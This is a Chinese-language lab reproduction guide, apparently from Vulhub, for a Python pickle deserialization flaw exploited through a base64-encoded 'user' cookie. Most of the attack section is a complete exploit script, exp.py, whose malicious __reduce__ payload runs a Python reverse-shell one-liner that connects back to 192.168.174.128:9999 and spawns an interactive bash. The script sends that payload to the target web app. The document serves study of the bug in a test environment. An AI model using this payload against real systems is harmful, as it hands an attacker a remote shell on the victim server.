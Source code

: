# Python unpickle 造成任意命令执行漏洞

## 漏洞描述

参考文章：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html

## 环境搭建

Vulhub编译及运行测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:8000`，显示`Hello {username}!`。

## 漏洞复现

username是取Cookie变量user，对其进行base64解码+反序列化后还原的对象中的“username”变量，默认为“Guest”，伪代码：`pickle_decode(base64_decode(cookie['user']))['username'] or 'Guest'`。

调用exp.py，监听9999端口，反弹shell：

```python
#!/usr/bin/env python3
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.174.128",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))


e = exp()
s = pickle.dumps(e)

response = requests.get("http://192.168.174.128:8000/", cookies=dict(
    user=base64.b64encode(s).decode()
))
print(response.content)
```

![image-20220228172508273](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281725409.png)